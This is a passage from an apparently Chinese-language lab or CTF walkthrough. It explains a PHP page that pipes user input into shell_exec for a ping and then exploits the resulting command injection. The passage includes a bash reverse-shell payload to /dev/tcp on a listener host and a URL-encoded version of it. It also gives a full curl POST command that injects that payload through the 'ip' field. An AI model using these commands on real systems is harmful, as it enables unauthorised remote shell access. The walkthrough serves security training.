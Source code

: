 > \
> 这段代码是一段简单的 PHP 代码，用于执行命令行中的 `ping` 命令，并将结果输出到页面上。
>
> 具体解释如下：
>
> * `shell_exec()` 是 PHP 中的一个函数，用于在操作系统的命令行中执行指定的命令，并返回执行结果。
> * `ping -c 3` 是一个命令行命令，用于向指定的目标地址发送 ICMP 回显请求（ping 请求），并接收 ICMP 回显响应（ping 响应）。
> * `$target` 是一个变量，表示目标地址，将会在执行代码时替换为具体的目标地址。
> * `echo shell_exec('ping -c 3 ' . $target);` 执行 `ping -c 3` 命令，并将结果通过 `echo` 命令输出到页面上。
>
> 这段代码的作用是在网页上显示执行 `ping` 命令后的结果，其中 `ping` 的目标地址由 `$target` 变量指定

### 初步利用

现在我们已经在 pingit.php Web 应用程序中发现了命令注入，获取 shell 应该是微不足道的。为了简单起见，我们可以使用 curl。

Firefox 中的开发人员工具包含一项功能，允许您复制代表浏览器中发出的任何请求的 curl 命令。要使用此功能，请从 pingit.php 页面执行以下操作：

1. 按 F12 启动开发人员工具。
2. 打开开发者工具的 Network 选项卡可以查看所有的 HTTP 请求。
3. 重新加载页面。出现提示时，选择重新发送数据。
4. 找到对文件 pingit.php 的 POST 请求。
5. 右键单击 POST 请求，突出显示复制，然后选择复制为 cURL。这将复制一个可以直接粘贴到 shell 提示符的curl 命令。

选择copy as curl

<figure><img src="../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

将这这段命令粘贴到终端，太长了，可以看到 --data-raw 的IP字段的参数可以用来命令执行，我们可以生成一个反向shell，下面是一个生成反向shell的一个网站

{% embed url="https://www.revshells.com/" %}

```
bash -i >& /dev/tcp/192.168.43.23/8888 0>&1
```

注意一下这个反向shell的payload的&符号在POST传参中需要url编码一下 &对应的url编码是%26

<pre><code><strong>bash -i >%26 /dev/tcp/192.168.43.23/8888 0>%261
</strong></code></pre>

```sh
┌──(root㉿kali)-[~]
└─# curl 'http://192.168.43.90/pingit.php' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://192.168.43.90/index.php' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://192.168.43.90' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'ip=%3Bbash -i >%26 /dev/tcp/192.168.43.23/8888 0>%261&submit=submit'll
```
